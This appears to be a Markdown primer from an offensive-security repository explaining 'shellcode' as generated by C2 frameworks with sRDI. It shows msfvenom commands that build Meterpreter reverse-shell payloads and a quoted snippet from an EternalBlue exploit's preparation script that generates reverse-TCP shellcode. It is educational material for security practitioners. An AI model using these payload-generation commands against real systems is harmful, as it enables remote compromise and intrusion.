 ## Shellcode - A Primer

> "shellcode" in this context refers to PIC payloads generated exclusively by C2 frameworks that use the [Shellcode Reflective DLL Injection (sRDI)](https://github.com/monoxgas/sRDI) technique, **not** true position-independent shellcode such as those seen [here](https://github.com/rapid7/metasploit-framework/tree/master/external/source/shellcode/windows/x64/src).

If you have been doing offensive security for a while, you have likely come across "shellcode" in one of many ways. For example, generating a [meterpreter](https://github.com/rapid7/metasploit-payloads) payload with `msfvenom` and the following arguments may be familiar:

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp ... -f raw
msfvenom -p windows/x64/meterpreter_reverse_tcp ... -f c

Completing available payloads
windows/x64/meterpreter_bind_named_pipe   -- Connect to victim and spawn a Meterpreter shell. Requires Windows XP SP2 or newer.
windows/x64/meterpreter_bind_tcp          -- Connect to victim and spawn a Meterpreter shell. Requires Windows XP SP2 or newer.
windows/x64/meterpreter_reverse_http      -- Connect back to attacker and spawn a Meterpreter shell. Requires Windows XP SP2 or newer.
windows/x64/meterpreter_reverse_https     -- Connect back to attacker and spawn a Meterpreter shell. Requires Windows XP SP2 or newer.
windows/x64/meterpreter_reverse_ipv6_tcp  -- Connect back to attacker and spawn a Meterpreter shell. Requires Windows XP SP2 or newer.
windows/x64/meterpreter_reverse_tcp       -- Connect back to attacker and spawn a Meterpreter shell. Requires Windows XP SP2 or newer.
```

Or, if you have ever used one of the [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010/blob/master/shellcode/shell_prep.sh) exploit for EternalBlue (MS17-010) - you may have seen the following commands executed to prepare shellcode for the exploit:

```bash
 if [ "$cmd" -eq 0 ]; then
        echo Type 0 to generate a staged payload or 1 to generate a stageless payload
        read staged
        if [ "$staged" -eq 0 ]; then
            <...snip...>
            msfvenom -p windows/x64/meterpreter/reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=$ip LPORT=$portOne
            <...snip...>
            msfvenom -p windows/meterpreter/reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=$ip LPORT=$portTwo
        elif [ "$staged" -eq 1 ]; then
            <...snip...>
            msfvenom -p windows/x64/meterpreter_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=$ip LPORT=$portOne
            <...snip...>
            msfvenom -p windows/meterpreter_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=$ip LPORT=$portTwo
            <...snip...>
```
